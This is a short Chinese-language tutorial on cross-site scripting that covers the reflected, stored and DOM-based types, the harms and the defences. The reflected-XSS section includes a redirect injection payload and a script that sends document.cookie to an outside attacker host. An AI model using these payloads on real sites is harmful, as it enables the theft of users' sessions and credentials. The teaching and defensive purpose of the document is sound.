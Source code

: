 # Web 安全之 xss 攻击
> XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”

## XSS 攻击大致上分为两类：
#### 一，反射型 XSS，又称非持久型 XSS
> 具体表现在我们把我们的恶意脚本通过url的方式传递给了服务器，而服务器则只是不加处理的把脚本“反射”回访问者的浏览器而使访问者的浏览器执行相应的脚本。

1. 找到注入点，例如一个 get 请求
` www.xxx.com?txt="test" `
修改一下
`www.xxx.com?txt=<script>window.location.href="http://www.baidu.com";</script> `
看是否会执行，执行则可以说明可以注入

2. 上面就是劫持访问了，盗取其他网站的流量，还可以进行 cookie 盗取
```
www.xxx.com?txt=<script>
    var img = new Image();
    img.src = "http://hacker.qq.com/hack.php?q="+document.cookie;
    document.body.append(img);
</script>
```
用户会把本地 cookie 传到我指定的页面

#### 二，存贮型xss攻击，又称持久型 XSS
> 攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。

1. 假若用户填写数据为：<script>alert('foolish!')</script>（或者<script type="text/javascript" src="./xss.js"></script>）
2. 提交后将会弹出一个foolish警告窗口，接着将数据存入数据库
3. 等到别的客户端请求这个留言的时候，将数据取出显示留言时将执行攻击代码，将会显示一个foolish警告窗口。

#### 三，DOM-based 型
> 客户端的脚本程序可以动态地检查和修改页面内容，而不依赖于服务器端的数据。前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）。

## XSS 危害
1. 劫持访问，盗取网站流量或者攻击其他网站
2. 盗取cookie，盗取用户登录以及其它隐私信息

### XSS 防范
1. 对重要的cookie设置httpOnly, 防止客户端通过document.cookie读取cookie。
2. 用户输入数据永远不值得信任，把输入的一些不合法的东西都过滤掉，从而保证安全性。如移除用户上传的DOM属性，如onerror，移除用户上传的Style节点，iframe, script节点等，还有过滤特殊字符串，如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等